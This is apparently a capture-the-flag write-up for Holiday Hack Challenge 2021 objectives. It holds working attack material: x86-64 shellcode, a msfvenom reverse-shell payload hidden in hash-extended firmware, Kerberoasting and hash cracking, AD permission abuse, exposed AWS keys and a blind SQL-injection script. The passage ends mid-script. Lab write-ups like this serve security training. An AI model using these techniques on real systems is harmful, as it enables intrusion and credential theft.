## Objective 6: Shellcode Primer

[Go back](#Objectives)

**Overview**
Requested by Ruby Oyster, found in FrostFest - Jack’s Office
<br>
Difficulty :christmas_tree: :christmas_tree:  :christmas_tree: (3/5)
Task: Complete the [Shellcode Primer](https://tracer.kringlecastle.com/) in Jack's office. According to the last challenge, what is the secret to KringleCon success? "All of our speakers and organizers, providing the gift of ____, free to the community." Talk to Chimney Scissorsticks in the NetWars area for hints.



**Resources**
* [Hints from Chimney Scissorsticks](#Hints-for-Objective-6:-Shellcode-Primer), found in KringleCon - NetWars

**Solution**

The objective already contains a very well written step-by-step documentation. The solutions for each step are:

<u>3 - Getting started</u>

```assembly
; Enter a return statement below and hit Execute to see what happens!
ret
```

<u>4 - Returning a value</u>

```assembly
; Set rax to 1337
mov rax, 1337
; Return, just like we did last time
ret
```

<u>5 - System calls</u>

See https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

```assembly
; Find the syscall number for sys_exit and put it in rax
mov rax, 60
; Put the exit_code we want (99) in rdi
mov rdi, 99
; Perform the actual syscall
syscall
```

<u>6 - Calling into the void</u>

```assembly
; Push this value to the stack
push 0x12345678
; Try to return
ret
```

<u>7 - Gettting RIP</u>

```assembly
; Remember, this call pushes the return address to the stack
call place_below_the_nop
; This is where the function *thinks* it is supposed to return
nop
; This is a 'label' - as far as the call knows, this is the start of a function
place_below_the_nop:
; Pop the top of the stack into rax
pop rax
; Return from our code, as in previous levels
ret
```

<u>8 - Hello World</u>

```assembly
; This would be a good place for a call
call afterhello
; This is the literal string 'Hello World', null terminated, as code. Except
; it'll crash if it actually tries to run, so we'd better jump over it!
db 'Hello World',0
; This would be a good place for a label and a pop
afterhello:
pop rax
; This would be a good place for a re... oh wait, it's already here. Hooray!
ret
```

<u>9 - Hello, World!!</u>

```assembly
; Get a reference to this string into the correct register
call afterhello
db 'Hello World!',0
afterhello:
pop rbx
; Set up a call to sys_write
; Set rax to the correct syscall number for sys_write
mov rax, 1
; Set rdi to the first argument (the file descriptor, 1)
mov rdi, 1
; Set rsi to the second argument (buf - this is the "Hello World" string)
mov rsi, rbx
; Set rdx to the third argument (length of the string, in bytes)
mov rdx, 12
; Perform the syscall
syscall
; Return cleanly
ret
```

<u>10 - Opening a File</u>

```assembly
; Get a reference to this string into the correct register
call afterhello
db '/etc/passwd',0
afterhello:
pop rbx
; Set up a call to sys_open
; Set rax to the correct syscall number
mov rax, 2
; Set rdi to the first argument (the filename)
mov rdi, rbx
; Set rsi to the second argument (flags - 0 is fine)
mov rsi, 0
; Set rdx to the third argument (mode - 0 is also fine)
mov rdx, 0
; Perform the syscall
syscall
; syscall sets rax to the file handle, so to return the file handle we don't
; need to do anything else!
ret
```

<u>11 - Reading a file</u>

```assembly
; Get a reference to this
call afterhello
db '/var/northpolesecrets.txt',0
afterhello:
pop rbx
; Call sys_open
mov rax, 2
mov rdi, rbx
mov rsi, 0
mov rdx, 0
syscall
; Call sys_read on the file handle and read it into rsp
mov rdi, rax
mov rax, 0
mov rsi, rsp
mov rdx, 200
syscall
; Call sys_write to write the contents from rsp to stdout (1)
mov rdx, rax
mov rax, 1
mov rdi, 1
mov rsi, rsp
syscall
; Call sys_exit
mov rax, 60
mov rdi, 99
syscall
```

The result is:

Secret to KringleCon success: all of our speakers and organizers, providing the gift of cyber security knowledge, free to the community. 

[Go back](#Objectives)

## Objective 7: Printer Exploitation

[Go back](#Objectives)

**Overview**
Requested by Device Printer, found in FrostFest - Jack’s Office
<br>
Difficulty :christmas_tree: :christmas_tree: :christmas_tree: :christmas_tree:  (4/5)
Task: Investigate the stolen [Kringle Castle printer](https://printer.kringlecastle.com/). Get shell access to read the contents of `/var/spool/printer.log`. What is the name of the last file printed (with a `.xlsx` extension)? Find Ruby Cyster in Jack's office for help with this objective.


**Resources**

* [Hints from Ruby Oyster](#Hints-for-Objective-7:-Printer-Exploitation), found in FrostFest - Jack’s Office

**Solution**

The idea is quite simple: Use the hash_extender to add one zip to another zip while preserving the produced hash. Two things are important or the whole operation won't work as expected:

* The modified firmware needs to "shadow" the original firmware. This is only the case if the filename is exactly the same. 
* The hash_extender is quite tricky to handle. It does accept a file as original but only a string to be appended. As a zip contains binary it's safer to convert it to base64 before adding it.

To make life a little easier I write a small script so I didn't need to enter the commands manually. I haven chosen to inlude a standard reverse shell as payload.

Helper program: 

```bash
┌──(ben㉿42c96d2)-[~/Work/printer]
└─$ cat complete.sh 
#!/bin/bash
rm firmware.bin firmware2.bin firmware-export2.zip firmware-export.zip firmware-import.json 
cat firmware-export.json | cut -f 4 -d "\"" | base64 --decode > firmware-export.zip
msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=80 -f elf > firmware.bin
chmod 0755 firmware.bin
zip -rv firmware-export2.zip firmware.bin
oldsig=`cat firmware-export.json | cut -f 8 -d "\"" `
newfile="504b0304140000000800cf0c9253ea51bdc778000000c20000000c001c006669726d776172652e62696e5554090003852dbd617d2dbd6175780b000104e803000004e8030000ab77f57163626464800126063b0610af82c101cc7760c0040e0c160c301d209a1d4d16993e04e5f1c0340840a82ccd8899594cf1598c71fcac1ed33d76323130045c79bcee5ea047e7b32c81a82cad087ed62ce6388fffe7b21481ccd26f59d611333d76eb2765e6e9176730047b743e0f0a07aae5670500504b01021e03140000000800cf0c9253ea51bdc778000000c20000000c0018000000000000000000ed81000000006669726d776172652e62696e5554050003852dbd6175780b000104e803000004e8030000504b0506000000000100010052000000be0000000000" # Converted via CyberChef to Base64, the command below was not working as it shouls 
echo -n "{\"firmware\":\"" > firmware-import.json 
# cat firmware-export.zip | base64 -w 0 >> firmware-import.json
#./hash_extender --file=firmware-export.zip --signature="$oldsig" --format=sha256 --secret=16 --out-data-format=raw --out-signature-format=none -q --append=" " | base64 -w 0 >> firmware-import.json
./hash_extender --file=firmware-export.zip --signature="$oldsig" --format=sha256 --secret=16 --out-data-format=raw --out-signature-format=none -q --append="$newfile" --append-format=hex | base64 -w 0 >> firmware-import.json
echo -n "\",\"signature\":\"" >> firmware-import.json
# echo -n "$oldsig" >> firmware-import.json
#./hash_extender --file=firmware-export.zip --signature="$oldsig" --format=sha256 --secret=16 --out-data-format=none --out-signature-format=hex -q --append=" " >> firmware-import.json
./hash_extender --file=firmware-export.zip --signature="$oldsig" --format=sha256 --secret=16 --out-data-format=none --out-signature-format=hex -q --append="$newfile" --append-format=hex >> firmware-import.json
echo -n "\",\"secret_length\":16,\"algorithm\":\"SHA256\"}" >> firmware-import.json
```

On another machine:

```bash
$ bash
ben@localhost:~$ sudo nc -nvlp 80
[sudo] password for ben: 
Listening on 0.0.0.0 80
Connection received on 34.121.219.20 47358
pwd
/app
cat /var/spool/printer.log
Documents queued for printing
=============================

Biggering.pdf
Size Chart from https://clothing.north.pole/shop/items/TheBigMansCoat.pdf
LowEarthOrbitFreqUsage.txt
Best Winter Songs Ever List.doc
Win People and Influence Friends.pdf
Q4 Game Floor Earnings.xlsx
Fwd: Fwd: [EXTERNAL] Re: Fwd: [EXTERNAL] LOLLLL!!!.eml
Troll_Pay_Chart.xlsx

```

[Go back](#Objectives)

## Objective 8: Kerberoasting on an Open Fire

[Go back](#Objectives)

**Overview**
Requested by xy, found in xy (needs to be updated)
<br>
Difficulty :christmas_tree: :christmas_tree: :christmas_tree: :christmas_tree: :christmas_tree: (5/5)
Task: Obtain the secret sleigh research document from a host on the Elf University domain. What is the first secret ingredient Santa urges each elf and reindeer to consider for a wonderful holiday season? Start by registering as a student on the [ElfU Portal](https://register.elfu.org/). Find Eve Snowshoes in Santa's office for hints.

 (needs to be updated)

**Resources**
* [Hints from Eve Snowshoes](#Hints-for-Objective-8:-Kerberoasting-on-an-Open-Fire), found in KringleCon - Santa’s Office

**Solution**

First we register on https://register.elfu.org/register
Note: See https://github.com/chrisjd20/hhc21_powershell_snippets as reference later for the used scripts (almost all the scripts are taken from there and only slightly modified).

```
New Student Domain Account Creation Successful!
You can now access the student network grading system by SSH'ing into this asset using the command below:
ssh gppurkeczj@grades.elfu.org -p 2222
ElfU Domain Username: gppurkeczj
ElfU Domain Password: Bkqcvhvlf@
```

Let’s initially log into the system:

```bash
└─$ ssh kgtkmmjpui@grades.elfu.org -p 2222                             255 ⨯
kgtkmmjpui@grades.elfu.org's password: 

===================================================
=   Elf University Student Grades Portal    =
=     (Reverts Everyday 12am EST)      =
===================================================
\1. Print Current Courses/Grades.
e. Exit
```

It seems we are in some shell, so just pressing any key to see if we’re able to escape it. By pressing CTRL+D, we got a python stack trace and a python shell. We can use this to spawn a bash:

```bash
1. Print Current Courses/Grades.
e. Exit
: Traceback (most recent call last):
 File "/opt/grading_system", line 41, in <module>
  main()
 File "/opt/grading_system", line 26, in main
  a = input(": ").lower().strip()
EOFError
>>> 1+1
2
>>> import subprocess
>>> subprocess.run(["ls"])
CompletedProcess(args=['ls'], returncode=0)
>>> subprocess.run(["/bin/bash"])
kgtkmmjpui@grades:~$ 
```

Let’s look for a domain controller. As we don't know the IP range and scanning the whole networks would be too aggressive we'll look into the routing tables first.

```bash
kgtkmmjpui@grades:/usr/local/bin$ route
Kernel IP routing table
Destination   Gateway     Genmask     Flags Metric Ref  Use Iface
default     172.17.0.1   0.0.0.0     UG  0   0    0 eth0
10.128.1.0   172.17.0.1   255.255.255.0  UG  0   0    0 eth0
10.128.2.0   172.17.0.1   255.255.255.0  UG  0   0    0 eth0
10.128.3.0   172.17.0.1   255.255.255.0  UG  0   0    0 eth0
172.17.0.0   0.0.0.0     255.255.0.0   U   0   0    0 eth0
```

A domain controller should habe port 389 open, so let's look for that.

```bash
kgtkmmjpui@grades:/usr/local/bin$ nmap -p389 -sV 10.128.1-3.0/24 | grep -A10 -B10 open
Nmap scan report for 10.128.3.29
Host is up (0.00040s latency).
PORT  STATE SERVICE VERSION
389/tcp closed ldap

Nmap scan report for 10.128.3.30
Host is up (0.00030s latency).
PORT  STATE SERVICE VERSION
389/tcp open ldap  (Anonymous bind OK)

Nmap scan report for 10.128.3.31
Host is up (0.00027s latency).
PORT  STATE SERVICE VERSION
389/tcp closed ldap

Nmap scan report for 10.128.3.32
Host is up (0.0016s latency).
```

Let’s inspect that DC and see what shares we can access:

```bash
kgtkmmjpui@grades:/usr/local/bin$ smbclient -L 10.128.3.30
Enter WORKGROUP\kgtkmmjpui's password: 
    Sharename    Type   Comment
    ---------    ----   -------
    netlogon    Disk    
    sysvol     Disk    
    elfu_svc_shr  Disk   elfu_svc_shr
    research_dep  Disk   research_dep
    IPC$      IPC    IPC Service (Samba 4.3.11-Ubuntu)
SMB1 disabled -- no workgroup available

kgtkmmjpui@grades:/usr/local/bin$ smbclient \\\\10.128.3.30\\sysvol
Enter WORKGROUP\kgtkmmjpui's password: 
Try "help" to get a list of possible commands.
smb: \> ls
 .                  D    0 Fri Oct 29 19:29:49 2021
 ..                 D    0 Sat Dec 18 08:01:31 2021
 elfu.local             D    0 Fri Oct 29 19:29:49 2021
        41089256 blocks of size 1024. 34669072 blocks available
smb: \> exit
```

Okay, we know the domain name, let’s hunt for hashes:

```bash
kgtkmmjpui@grades:/tmp/mine$ python3 /usr/local/bin/GetUserSPNs.py -outputfile spns.txt elfu.local/kgtkmmjpui:'Lgpdogewh@' -requestImpacket v0.9.24 - Copyright 2021 SecureAuth Corporation

ServicePrincipalName         Name   MemberOf PasswordLastSet       LastLogon          Delegation 
----------------------------------- -------- -------- -------------------------- -------------------------- ----------
ldap/elfu_svc/elfu          elfu_svc      2021-10-29 19:25:04.305279 2021-12-18 21:16:02.276981       
ldap/elfu_svc/elfu.local       elfu_svc      2021-10-29 19:25:04.305279 2021-12-18 21:16:02.276981       
ldap/elfu_svc.elfu.local/elfu    elfu_svc      2021-10-29 19:25:04.305279 2021-12-18 21:16:02.276981       
ldap/elfu_svc.elfu.local/elfu.local elfu_svc      2021-10-29 19:25:04.305279 2021-12-18 21:16:02.276981       
```

Let’s see if we can crack these hashes using some words found on the original website:

```bash
┌──(ben㉿42c96d2)-[~/Work]
└─$ cewl --with-numbers https://register.elfu.org/register > customworldlist.txt

┌──(ben㉿42c96d2)-[~/Work]
└─$ hashcat -m 13100 -a 0 spns.txt --potfile-disable -r OneRuleToRuleThemAll.rule --force -O -w 4 --opencl-device-types 1,2 customworldlist.txt
hashcat (v6.1.1) starting...
You have enabled --force to bypass dangerous warnings and errors!
..
Approaching final keyspace - workload adjusted.  

$krb5tgs$23$*elfu_svc$ELFU.LOCAL$elfu.local/elfu_svc*$d7469749e5da7860959081fff6e11c67$46..5:Snow2021!
                    
Session..........: hashcat
Status...........: Cracked
..
Started: Sat Dec 18 23:02:56 2021
Stopped: Sat Dec 18 23:03:07 2021
```

We now can access another share using the service account:

```bash
kgtkmmjpui@grades:/tmp/mine$ smbclient -U elfu_svc -W elfu.local \\\\10.128.3.30\\elfu_svc_shr
Enter ELFU.LOCAL\elfu_svc's password: 
Try "help" to get a list of possible commands.
smb: \> recurse on
smb: \> prompt OFF
smb: \> mget *
getting file \Get-NavArtifactUrl.ps1 of size 2018 as Get-NavArtifactUrl.ps1 (1970.5 KiloBytes/sec) (average 1970.7 KiloBytes/sec)
getting file \Get-WorkingDirectory.ps1 of size 188 as Get-WorkingDirectory.ps1 (183.6 KiloBytes/sec) (average 1077.1 KiloBytes/sec)
```

By looking at these scripts we can find some credentials:

```bash
gppurkeczj@grades:/tmp/mine$ grep -i password *
..
gppurkeczj@grades:/tmp/mine$ cat GetProcessInfo.ps1 
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-Process } -Credential $aCred -Authentication Negotiate
```

We can use that information to establish a PS shell at that target machine:

```bash
PS /tmp/mine> $SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"         
PS /tmp/mine> $aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7  

PS /tmp/mine> $aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)                                             PS /tmp/mine> Enter-PSSession -ComputerName 10.128.1.53 -Credential $aCred -Authentication Negotiate   [10.128.1.53]: PS C:\Users\remote_elf\Documents>    

Enter-PSSession -ComputerName 10.128.1.53 -Credential $aCred -Authentication Negotiate    
```

We are looking around what AD groups are here:

```bash
[10.128.1.53]: PS C:\users\remote_elf> Get-ADGroup   
..
DistinguishedName : CN=Research Department,CN=Users,DC=elfu,DC=local
GroupCategory   : Security
GroupScope    : Global
Name       : Research Department
ObjectClass    : group
ObjectGUID    : 8dd5ece3-bdc8-4d02-9356-df01fb0e5f3d
SamAccountName  : ResearchDepartment
SID        : S-1-5-21-2037236562-2033616742-1485113978-1108
DistinguishedName : CN=File Shares,CN=Computers,DC=elfu,DC=local
GroupCategory   : Security
GroupScope    : Global
Name       : File Shares
ObjectClass    : group
ObjectGUID    : 46595df3-e36a-4c0e-b00f-77e44564c353
SamAccountName  : File Shares
SID        : S-1-5-21-2037236562-2033616742-1485113978-1511
```

The research group sounds interesting, let’s see if someone has DACL permissions:

```bash
[10.128.1.53]: PS C:\users\remote_elf> $ADSI = [ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"                      
[10.128.1.53]: PS C:\users\remote_elf> $ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])   
..
ActiveDirectoryRights : WriteDacl
InheritanceType    : None
ObjectType      : 00000000-0000-0000-0000-000000000000
InheritedObjectType  : 00000000-0000-0000-0000-000000000000
ObjectFlags      : None
AccessControlType   : Allow
IdentityReference   : ELFU\remote_elf
IsInherited      : False
InheritanceFlags   : None
PropagationFlags   : None
```

Our user already has the permissions, let’ use them:

```bash
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "gppurkeczj"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = (New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()

Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "gppurkeczj"
$password = "Bkqcvhvlf@"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

Now our login use should be able to access the share:

```bash
gppurkeczj@grades:~$ smbclient -U gppurkeczj -W elfu.local \\\\10.128.3.30\\research_dep
Enter ELFU.LOCAL\gppurkeczj's password: 
Try "help" to get a list of possible commands.
smb: \> ls
 .                  D    0 Thu Dec 2 16:39:42 2021
 ..                 D    0 Sun Dec 19 08:01:29 2021
 SantaSecretToAWonderfulHolidaySeason.pdf   N  173932 Thu Dec 2 16:38:26 2021
​        41089256 blocks of size 1024. 34468920 blocks available
smb: \> get SantaSecretToAWonderfulHolidaySeason.pdf 
getting file \SantaSecretToAWonderfulHolidaySeason.pdf of size 173932 as SantaSecretToAWonderfulHolidaySeason.pdf (42462.8 KiloBytes/sec) (average 42463.9 KiloBytes/sec)
smb: \> 

gppurkeczj@grades:~$ base64 -w 0 SantaSecretToAWonderfulHolidaySeason.pdf                 
┌──(ben㉿42c96d2)-[~/Work]
└─$ base64 -d santa.txt > santa.pdf  
```

[Go back](#Objectives)

## Objective 9: Splunk!

[Go back](#Objectives)

**Overview**
Requested by Angel Candysalt, found in KringleCon - Great Room
<br>
Difficulty :christmas_tree: :christmas_tree: :christmas_tree: (3/5)
Task: Help Angel Candysalt solve the Splunk challenge in Santa's great hall. Fitzy Shortstack is in Santa's lobby, and he knows a few things about Splunk. What does Santa call you when when you complete the analysis?


**Resources**

* [Hints from Fitzy Shortstack](#Hints-for-Objective-9:-Splunk!), found in KringleCon - Entry

**Solution**

This objective is well guided. So I have only included the solutions:

<u>Task 1:</u> 

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 process_name="/usr/bin/git"
```

Click on interesting fields - CommandLine: git status

<u>Task 2:</u>

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 process_name="/usr/bin/git" CommandLine="*partnerapi*"
```

Click on interesting fields - CommandLine: git@github.com:elfnp3/partnerapi.git

<u>Task 3:</u> 

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 process_name="/usr/bin/docker" CurrentDirectory="*partnerapi*"
```

Click on interesting fields - CommandLine: docker compose up

<u>Task 4:</u>

```
index=main sourcetype=github_json
```

Click on interesting fields - repository.url: https://github.com/elfnp3/dvws-node 

Looking for the dvws-project inside GitHub results in the URL: https://github.com/snoopysecurity/dvws-node

<u>Task 5:</u>

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 process_name="/usr/bin/node"
```

Click on interesting fields - CommandLine: holiday-utils-js

<u>Task 6:</u>

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=3 user=eddie NOT dest_ip IN (127.0.0.*) NOT dest_port IN (22,53,80,443)
```

Click on interesting fields - CommandLine: /usr/bin/nc.openbsd

<u>Task 7:</u>

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=3 user=eddie NOT dest_ip IN (127.0.0.*) NOT dest_port IN (22,53,80,443) process_name="/usr/bin/nc.openbsd"

index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 user=eddie NOT dest_ip IN (127.0.0.*) NOT dest_port IN (22,53,80,443) process_name="/usr/bin/nc.openbsd"

index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 user=eddie NOT dest_ip IN (127.0.0.*) NOT dest_port IN (22,53,80,443) ParentProcessId=6788
```

Click on interesting fields - CommandLine: 6 (cat /home/eddie/.aws/credentials /home/eddie/.ssh/authorized_keys /home/eddie/.ssh/config /home/eddie/.ssh/eddie /home/eddie/.ssh/eddie.pub /home/eddie/.ssh/known_hosts)

<u>Task 8:</u>

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 user=eddie NOT dest_ip IN (127.0.0.*) NOT dest_port IN (22,53,80,443) ProcessId=6788

index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 user=eddie NOT dest_ip IN (127.0.0.*) NOT dest_port IN (22,53,80,443) ProcessId=6784

index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 user=eddie NOT dest_ip IN (127.0.0.*) NOT dest_port IN (22,53,80,443) ProcessId=6783
```

Click on interesting fields - CommandLine: preinstall.sh

[Go back](#Objectives)

## Objective 10: Now Hiring!

[Go back](#Objectives)

**Overview**
Requested by Pat Tronizer, found in FrostFest - Talks Lobby
<br>
Difficulty :christmas_tree: :christmas_tree: :christmas_tree: (3/5)
Task: What is the secret access key for the [Jack Frost Tower job applications server](https://apply.jackfrosttower.com/)? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.


**Resources**
* [Hints from Noxious O D'or](#Hints-for-Objective-10:-Now-Hiring!), found in FrostFest - Jack’s Restroom

**Solution**

Looking at https://apply.jackfrosttower.com/?p=opportunities it seems the images contain some IMDS information. Trying out some combinations using BurpSuite Repeater ends in

```
GET /images/77.jpg HTTP/2
{
	"Code": "Success",
	"LastUpdated": "2021-05-02T18:50:40Z",
	"Type": "AWS-HMAC",
	"AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
	"SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
	"Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
	"Expiration": "2026-05-02T18:50:40Z"
} 
```

Note: The server/application sadly was broken for a few days so I couldn't document the "real" way/the real solution here. I'll update it later.

[Go back](#Objectives)

## Objective 11: Customer Complaint Analysis

[Go back](#Objectives)

**Overview**
Requested by xy, found in xy (to be updated)
<br>
Difficulty :christmas_tree: :christmas_tree:  (2/5)
Task: A human has accessed the Jack Frost Tower network with a non-compliant host. [Which three trolls complained about the human](https://downloads.holidayhackchallenge.com/2021/jackfrosttower-network.zip)? Enter the troll names in alphabetical order separated by spaces. Talk to Tinsel Upatree in the kitchen for hints.

 (to be updated)

**Resources**

* [Hints from Tinsel Upatree](#Hints-for-Objective-11:-Customer-Complaint-Analysis), found in KringleCon - Kitchen

**Solution**

Jack Frost is using the so-called "Evil bit" to distinguish between good and bad traffic. So most likely the "non-compliant" human has not set the "evil bit".

We unzip the PCAP file and set a filter accordingly:

```bash
$ tcpdump 'ip[6] & 128 == 0' -r jackfrosttower-network.pcap | grep complaint
reading from file jackfrosttower-network.pcap, link-type EN10MB (Ethernet), snapshot length 65535
19:32:17.576190 IP 10.70.84.251.36674 > 10.70.84.10.http: Flags [P.], seq 0:437, ack 1, win 502, options [nop,nop,TS val 4276157356 ecr 3229766183], length 437: HTTP: GET /feedback/guest_complaint.html HTTP/1.1
19:34:58.994082 IP 10.70.84.251.36676 > 10.70.84.10.http: Flags [P.], seq 0:959, ack 1, win 502, options [nop,nop,TS val 4276318755 ecr 3229927601], length 959: HTTP: POST /feedback/guest_complaint.php HTTP/1.1
```

So the human most likely had the IP 10.70.84.251
To make searching a little easier we're using Wireshark and setting the filters:

```
ip.src == 10.70.84.251 and http.request.method == "POST"
```

If we follow the HTTP traffic we can see the traffic:

```
name=Muffy+VonDuchess+Sebastian&troll_id=I+don%27t+know.+There+were+several+of+them.&guest_info=Room+1024&description=I+have+never%2C+in+my+life%2C+been+in+a+facility+with+such+a+horrible+staff.+They+are+rude+and+insulting.+What+kind+of+place+is+this%3F+You+can+be+sure+that+I+%28or+my+lawyer%29+will+be+speaking+directly+with+Mr.+Frost%21&submit=Submit
```

So just look for any other person which might have been in that room:

```
ip.src != 10.70.84.251 and http.request.method == "POST" and urlencoded-form contains "1024"
```

That results in exactly three complaints, we’re looking into the traffic (Wireshark - Follow HTTP stream)

The three trolls mentioned in the stream are:
Flud Hagg Yaqh

[Go back](#Objectives)

## Objective 12: Frost Tower Website Checkup

[Go back](#Objectives)

**Overview**
Requested by Ingreta Tude, found in FrostFest - Jack’s Studio
<br>
Difficulty :christmas_tree: :christmas_tree: :christmas_tree: :christmas_tree: :christmas_tree: (5/5)
Task: Investigate [Frost Tower's website for security issues](https://staging.jackfrosttower.com/). [This source code will be useful in your analysis](https://download.holidayhackchallenge.com/2021/frosttower-web.zip). In Jack Frost's TODO list, what job position does Jack plan to offer Santa? Ribb Bonbowford, in Santa's dining room, may have some pointers for you.


**Resources**
* [Hints from Ribb Bonbowford](#Hints-for-Objective-12:-Frost-Tower-Website-Checkup), found in KringleCon - Dining Room

**Solution**

There is an authentication flaw in the method (see server.js). By posting the same email a second time we will be authenticated.

```javascript
..
app.post('/postcontact', function(req, res, next){
    var rowlength = rows.length;
    if (rowlength >= "1"){
      session = req.session;
      session.uniqueID = email;
      req.flash('info', 'Email Already Exists');
      res.redirect("/contact");
    } else {
```

This way we get a valid session.uniqueID which can bypass the authentication. By further looking at the code it seems the details page allows SQL injection which can be triggered by supplying multiple comma separated values. This is quite tricky as the web page does not use a comma separated list so without the source code that SQLi most likely wouldn't be noticed.

```bash
┌──(ben㉿42c96d2)-[~/Work]
└─$ curl -L --cookie "_csrf=kocuNDU9QMlSalYi03IpcY4o;" --cookie "connect.sid=s%3Aa7wP3VhClIjx8eHUMQ4INyOilSc3NYgz.eNDqZCVlX7GNlBuI4F%2BZK3Sin%2F8koFzQoT4kR4mTw6k" "https://staging.jackfrosttower.com/detail/1000,1001%20OR%20id=%20(select%20count(*)%20from%20emails)" 2>/dev/null| grep ">Edit<" | cut -f 2 -d "\"" | cut -f 3 -d "/"
14
```

Abusing that SQLi with sqlmap does not bring any success as sqlmap has its problems with that comma separated list. I have written a script to make database enumeration in that case a lot easier.

```bash
┌──(ben㉿42c96d2)-[~/Work]
└─$ cat frosttest.sh               
#!/bin/bash
row=$4
table=$1
column=$2
where=$3
good1=110
good2=112
maxrow=$5
csrf="e5bcyuMyt8FIPF22ZJcFbft1rRObQRB2."
sid="s%3A0kBa0_sU0UezHTC3yjtJtDXB1OPe8aJS.qu0IwkV2Iy6TLeB2X2XRYml%2BY7tQZkH84sFr3ifKb50"
echo "Analyzing table $table and column $column..."
while [ $row -le $maxrow ]
do
    cont=1
    position=1
    echo -n "Row ID $row: "
    while [ $cont = 1 ]
    do
        cont=0
        #for i in a b c d e f g h i j k l m n o p q r s t u v w x y z 1 2 3 4 5 6 7 8 9 0
        ascii=32
        while [ $ascii -le 127 ]
        do 
            counter=`curl -L --cookie "_csrf=$csrf" --cookie "connect.sid=$sid" "https://staging.jackfrosttower.com/detail/$good1,$good2%20AND%20%22$ascii%22%20=%20(select%20(ascii(substring($column%20from%20$position%20for%201)))%20%20from%20$table$where%20limit%201%20OFFSET%20$row)" 2>/dev/null | grep ">Edit<" | cut -f 2 -d "\"" | wc -l`
            if [ "x $counter x" == "x 2 x" ]
            then
                #echo -n $ascii
                echo $ascii | awk '{printf("%c",$1)}'
                cont=1
                position=$(echo $position + 1 | bc)
            fi
            ascii=$(echo $ascii + 1 | bc)
        done
    done
